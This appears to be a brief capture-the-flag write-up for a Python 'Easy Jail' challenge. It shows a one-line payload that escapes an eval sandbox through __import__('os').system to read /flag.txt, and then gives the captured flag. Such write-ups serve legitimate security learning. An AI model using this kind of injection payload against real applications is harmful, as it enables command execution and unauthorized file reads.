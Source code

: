 # Easy Jail

```python
__import__('os').system('cat /flag.txt')
```
## Flag

`KashiCTF{3V4L_41NT_54F3_flrA03Vv}`
